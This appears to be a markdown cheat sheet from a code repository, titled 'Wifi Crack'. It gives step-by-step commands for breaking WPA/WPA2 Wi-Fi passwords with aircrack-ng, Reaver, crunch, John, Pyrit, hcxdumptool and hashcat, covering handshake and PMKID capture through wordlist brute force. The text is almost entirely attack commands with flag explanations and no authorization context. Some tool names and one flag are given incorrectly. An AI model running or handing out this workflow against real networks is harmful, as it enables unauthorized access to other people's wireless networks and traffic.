 # Wifi Crack

Aircrack:

	aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk\*.cap

Reaver:

	reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv
	reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv

Crunch & Aircrack:

	crunch 8 8 0123456789 -s 00000000 -e 99999999 | aircrack -e test proof.cap -w -

John & Aircrack:

	john --wordlist=password.lst --rules=Jumbo --stdout | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

	https://wpa-sec.stanev.org/
	https://github.com/danielmiessler/SecLists

Pyrit:

Pyrit is one of the fastest tools available for WPA password-cracking out there.

One helpful tool is the strip command, which strips down long capture files to only include relevant packets. And then there's the verify option that lets Pyrit confirm results via recomputation.

Pyrit also has several features to import multiple password lists into a large database. To prevent duplicates, the import_unique_passwords command can also strip out passwords that appear multiple times in the same file we're trying to import. After we import passwords to the database, we can start cracking them with the attack_batch option.

Download a Password List & Benchmark System:

	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

	pyrit benchmark (benchmark our system)

	pyrit -i '/root/Desktop/probable-v2-wpa-top4800.txt' import_passwords (import passwords to the database)

Capture handshakes:

	airmon-ng start wlan0
	airodump-ng wlan0mon -c 3 -w capture
	pyrit -r '/root/Desktop/capture-01.cap' analyze (analyse captured file to show if we have a valid handshake)

Final command:

	pyrit -r capture.pcap -o savedpass attack_batch

New Method of Password Cracking:

In this case we use Hxctools & Hashcat to capture packets and crack the password but we can do that automaticaly with wifite, if the necessary softwares are installed Wifite will automaticaly use them and give us a URL to upload the modified handshakes. Then the password cracking is performed from connected server online using different password lists.

Install Hxctools & Hashcat:

	sudo apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev
	
On your Git folder:

	git clone https://github.com/ZerBea/hcxdumptool.git
	cd hcxdumptool
	sudo make
	sudo make install

On your Git folder:

	git clone https://github.com/ZerBea/hcxtools.git
	cd hcxtools
	sudo make
	sudo make install

	apt install hashcat

Use Hxcdump to Capture PMKIDs from Local Networks

	airmon-ng start wlan0
	
	hcxdumptool -i wlan0mon -o galleria.pcapng --enable__status=1

-i tells the program which interface we are using, in this case, wlan0mon. The filename we'll be saving the results to can be specified with the -o flag argument. The channel we want to scan on can be indicated with the -c flag followed by the number of the channel to scan.

Use Hxcpcaptool to Convert the Dump for Hashcat:

To convert our PCAPNG file, we'll use hcxpcaptool with a few arguments specified. In the same folder that your .PCAPNG file is saved, run the following command in a terminal window.

	hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

This command is telling hxcpcaptool to use the information included in the file to help Hashcat understand it with the -E, -I, and -U flags. The -Z flag is used for the name of the newly converted file for Hashcat to use, and the last part of the command is the PCAPNG file we want to convert.

Select a Password List & Brute Force with Hashcat:

	hashcat -m 16800 galleriaHC.16800 -a 0 --kernel-accel=1 -w 4 --force 'topwifipass.txt'
	
In this command, we are starting Hashcat in 16800 mode, which is for attacking WPA-PMKID-PBKDF2 network protocols. Next, we'll specify the name of the file we want to crack, in this case, "galleriaHC.16800." The -a flag tells us which types of attack to use, in this case, a "straight" attack, and then the -w and --kernel-accel=1 flags specifies the highest performance workload profile. If your computer suffers performance issues, you can lower the number in the -w argument.

Next, the --force option ignores any warnings to proceed with the attack, and the last part of the command specifies the password list we're using to try to brute force the PMKIDs in our file, in this case, called "topwifipass.txt."
